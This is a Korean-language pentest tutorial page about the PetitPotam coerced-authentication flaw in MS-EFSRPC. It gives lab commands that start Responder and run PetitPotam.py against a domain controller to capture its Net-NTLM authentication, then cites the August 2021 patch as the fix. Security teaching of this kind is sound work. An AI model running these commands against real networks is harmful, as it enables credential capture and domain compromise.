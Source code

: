 # MS-EFSRPC - Petitpotam

![](../../.gitbook/assets/petitpotam.drawio.png)

MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.

### 실습

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.

1. NTLM 인증 트래픽을 받을 Responder 세팅

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인

![](<../../.gitbook/assets/image (20).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인

![](<../../.gitbook/assets/image (75).png>)

### 대응 방안

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.

### 레퍼런스

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31" %}

